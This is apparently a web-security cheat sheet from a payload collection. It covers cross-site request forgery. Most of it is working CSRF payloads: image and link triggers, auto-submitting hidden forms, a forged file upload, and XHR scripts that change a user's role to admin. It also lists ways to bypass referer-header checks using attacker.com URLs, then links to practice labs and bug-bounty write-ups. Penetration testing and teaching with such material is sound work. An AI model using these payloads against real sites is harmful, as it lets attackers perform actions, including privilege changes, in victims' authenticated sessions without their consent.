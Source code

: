 # Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP



## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [Payloads](#payloads)
    * [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
    * [HTML GET - No User Interaction)](#html-get---no-user-interaction)
    * [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
    * [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
    * [HTML POST - multipart/form-data with file upload - Requiring User Interaction](#html-post---multipartform-data-with-file-upload---requiring-user-interaction)
    * [JSON GET - Simple Request](#json-get---simple-request)
    * [JSON POST - Simple Request](#json-post---simple-request)
    * [JSON POST - Complex Request](#json-post---complex-request)
* [Bypass referer header validation check](#bypass-referer-header-validation)
    * [Basic payload](#basic-payload)
    * [With question mark payload](#with-question-mark-payload)
    * [With semicolon payload](#with-semicolon-payload)
    * [With subdomain payload](#with-subdomain-payload)
* [Labs](#labs)
* [References](#references)


## Tools

* [XSRFProbe - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.](https://github.com/0xInfection/XSRFProbe)


## Methodology

![CSRF_cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF%20Injection/Images/CSRF-CheatSheet.png?raw=true)

## Payloads

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.


### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```


### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```


### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```


### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```


### HTML POST - multipart/form-data with file upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```


### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```


### JSON POST - Simple Request

With XHR :

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

With autosubmit send form, which bypasses certain browser protections such as the Standard option of [Enhanced Tracking Protection](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) in Firefox browser :

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// this input will send : {"role":admin,"other":"="}
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass referer header validation

### Basic payload
```
1) Open https://attacker.com/csrf.html
2) Referer header is ..

Referer: https://attacker.com/csrf.html
```
### With question mark(`?`) payload
```
1) Open https://attacker.com/csrf.html?trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html?trusted.domain.com
```

### With semicolon(`;`) payload
```
1) Open https://attacker.com/csrf.html;trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html;trusted.domain.com
```

### With subdomain payload
```
1) Open https://trusted.domain.com.attacker.com/csrf.html
2) Referer headers is ..

Referer: https://trusted.domain.com.attacker.com/csrf.html
```


## Labs

* [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)


## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton](https://whitton.io/articles/messenger-site-wide-csrf/) 
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial](https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali](http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - vijay kumar](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How i Hacked your Beats account ? Apple Bug Bounty - @aaditya_purani](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Dr.Jones](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross site request forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass referer check logic for CSRF](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)
